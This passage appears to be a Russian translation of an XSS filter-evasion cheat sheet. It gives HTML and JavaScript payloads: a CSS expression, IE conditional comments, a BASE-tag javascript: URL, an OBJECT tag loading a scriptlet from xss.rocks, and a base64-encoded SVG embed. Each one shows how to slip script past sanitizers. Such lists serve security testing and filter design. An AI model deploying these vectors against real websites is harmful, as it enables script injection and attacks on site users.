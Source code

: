 ```html
<DIV STYLE="width: expression(alert('XSS'));">
```

### Нижний уровень - Скрытый блок

Работает только на движке рендеринга IE - Trident. Некоторые веб-сайты считают, что все, что находится внутри блока комментариев, безопасно и поэтому не нуждается в удалении, что позволяет нашему XSS-вектору существовать. Или система может попытаться добавить теги комментариев к чему-либо в тщетной попытке обезопасить это. Как мы видим, это, вероятно, не сработает:

```js
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->
```

### Тэг BASE 

Работает в IE в безопасном режиме) Для этой атаки требуется `//`, чтобы закомментировать следующие символы, чтобы вы не получили ошибку JavaScript и ваш тег XSS отображался. Кроме того, это связано с тем, что многие веб-сайты используют динамически размещаемые изображения, такие как `images/image.jpg`, а не полные пути. Если путь содержит начальную косую черту, такую как `images/image.jpg`, вы можете удалить одну косую черту из этого вектора (если в начале комментария их две, это сработает):

```html
<BASE HREF="javascript:alert('XSS');//">
```

### Тэг OBJECT

Если система разрешает использование объектов, вы также можете внедрить полезные вирусы, которые могут заразить пользователей и т.д., с помощью тега APPLET. Связанный файл на самом деле является HTML-файлом, который может содержать ваш XSS:

```html
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```

### EMBED SVG содержащий XSS-вектор

Эта атака работает только в Firefox:

```html
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

(Спасибо nEUrOO за это)

### XML-база данных с обфускацией CDATA

Эта XSS-атака работает только в IE:
